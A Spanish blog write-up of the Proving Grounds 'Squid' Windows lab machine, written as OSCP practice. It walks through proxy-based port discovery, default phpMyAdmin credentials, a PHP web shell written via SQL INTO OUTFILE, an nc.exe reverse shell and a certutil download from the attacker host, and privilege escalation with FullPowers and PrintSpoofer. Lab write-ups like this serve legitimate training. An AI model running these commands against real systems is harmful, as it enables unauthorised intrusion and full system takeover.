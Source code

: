```yaml
---
layout: single
title: PG Practice (OSCP Prep.) - Squid Writeup
excerpt: "Es ahora el turno de una máquina Windows, algo importantísimo para el OSCP. En este caso, nos aprovecharemos de un proxy Squid para descubrir puertos internos de la máquina. Posteriormente, accederemos a un phpMyAdmin con credenciales por defecto y escalaremos privilegios de una forma muy interesante utilizando la herramienta FullPowers.exe."
date: 2025-04-10
classes: wide
header:
  teaser: /assets/images/pg-writeup-squid/pg_writeup_squid.webp
  teaser_home_page: true
  icon: /assets/images/hacked.webp
categories:
  - Proving Grounds Practice
  - OSCP
tags:
  - Squid Proxy
  - PhpMyAdmin
  - FullPowers - Privilege Escalation
---
```


Comenzamos la máquina sin rodeos.

<p align="center">
<img src="/assets/images/pg-writeup-squid/start_keyboard.gif">
</p>

# Enumeración 

```bash
nmap -p- -sS -sCV --min-rate 5000 --open -v -n -Pn 192.168.182.189 -oG allports
```

# Puertos: 

```bash
Nmap scan report for 192.168.182.189
Host is up (0.040s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3128/tcp  open  http-proxy    Squid http proxy 4.14
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.14
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-25T16:45:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb 25 17:45:45 2025 -- 1 IP address (1 host up) scanned in 95.65 seconds
```

Veo que hay un proxy Squid abierto. Podría intentar comprobar si hay algún puerto web típico accesible internamente, pero no expuesto externamente, aprovechando el acceso a través del proxy Squid. Esto lo considero ya que, al intentar enumerar el puerto 445 con `smbclient -L 192.168.182.189 -U ''`, recibo un mensaje de permiso denegado.

```bash
for port in 80 8081 8080 8000 ; do curl -s -X GET http://127.0.0.1:$port -x http://192.168.182.189:3128 -I | grep -i "200 OK" && echo "Puerto: $port Abierto" ; done

HTTP/1.1 200 OK
Puerto: 8080 Abierto
```

**Explicación**: Al hacer uso de puertos típicos que podrían estar abiertos, intento enviar un `curl` hacia ellos a la dirección `127.0.0.1`. Sin embargo, no se trata de mi máquina local, ya que, al pasar por el proxy Squid con el parámetro `-x` en `curl`, la máquina víctima, actuando como intermediario, se está refiriendo a su propio localhost. Por lo tanto, estamos enumerando los puertos de la máquina víctima.

El puerto `8080` está abierto, por lo tanto, podría intentar configurar el puerto 3128 de la máquina víctima como proxy en FoxyProxy y así acceder a la web.

Por lo tanto, ahora, para acceder a la web a través de `FoxyProxy` en `Firefox`, agregaré el proxy Squid de la máquina víctima, es decir, `192.168.182.189` en el puerto `3128`, para poder acceder a ese puerto, ya que no está expuesto hacia afuera.

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225180402.png">
</p>

Y vemos la web

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225180430.png">
</p>

Si nos fijamos en la parte inferior, veo que hay un `PhpMyAdmin`. He probado a ingresar con las credenciales típicas de `root` y contraseña `''`, es decir vacía, y he logrado acceder. Ahora, ejecuto este comando para escribir un archivo shell.php en el servidor y ejecutar comandos.

# Intrusión mediante consulta SQL en PhpMyAdmin: Carga de shell.php y ejecución de comandos

Podría intentar verificar si tengo permisos para escribir en un archivo del servidor y, mediante una consulta `SQL`, exportar un código malicioso en `PHP` que me permita ejecutar comandos a través del parámetro `cmd` y la función `system`.

En el apartado de consultas `SQL` de `PhpMyAdmin` escribimos esto:

```sql
SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "C:/wamp/www/shell.php"
```

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225185116.png">
</p>

Ahora simplemente buscamos el archivo `shell.php` en la raíz del servidor y probamos a ejecutar comandos.

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225185132.png">
</p>

Y obtenemos ejecución de comandos

Ejecuto esto para tener una consola interactiva:

```powershell
http://192.168.182.189:8080/shell.php?cmd=\\<TU-IP>\shareFolder\nc.exe -e cmd <TU-IP> <TU-PUERTO>
```

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225192943.png">
</p>

Descárgate el netcat de este lugar y usa el `nc64.exe` -> [nc.exe](https://eternallybored.org/misc/netcat/)

Levanta su servidor `smb` con `smbserver` de `impacket`

```bash
smbserver.py shareFolder $(pwd) -smb2support
```

Ponte en escucha con `netcat` y `rlwrap`

```bash
rlwrap nc -nvlp <TU-PUERTO>
```

# Escalada de privilegios - FullPowers 

[FullPowers](https://github.com/itm4n/FullPowers)

**Explicación**: El creador del exploit ha descubierto que, en Windows, algunos servicios ejecutados como LOCAL SERVICE o NETWORK SERVICE están configurados para operar con un conjunto restringido de privilegios. Esto significa que, aunque el servicio sea comprometido, no se obtienen los privilegios de suplantación dorada, y la escalada de privilegios a LOCAL SYSTEM debería ser más compleja. Sin embargo, el creador del exploit ha encontrado que, al crear una tarea programada, el nuevo proceso generado por el Task Scheduler Service posee todos los privilegios predeterminados de la cuenta de usuario asociada (excepto SeImpersonate). Por lo tanto, mediante manipulaciones de tokens, es posible generar un nuevo proceso con todos los privilegios faltantes.

Simplemente subimos el archivo `.exe` con `certutil` y lo ejecutamos

```powershell
certutil.exe -f -urlcache -split <TU-IP>/FullPowers.exe FullPowers.exe 
```

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225193613.png">
</p>

Ahora ejecutamos un `whoami /priv` para ver nuestros privilegios y vemos que tenemos el privilegio `SeImpersonatePrivilege`

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225193635.png">
</p>

Ahora simplemente utilizaré [PrintSpoofer](https://github.com/k4sth4/PrintSpoofer/blob/main/PrintSpoofer.exe)

```powershell
C:\Windows\Temp\privesc>.\PrintSpoofer -i -c powershell
```

<p align="center">
<img src="/assets/images/pg-writeup-squid/Pasted image 20250225193841.png">
</p>

Máquina completada!! 

<p align="center">
<img src="/assets/images/leonardo-dicaprio-clapping.gif">
</p>

Gracias por leer.




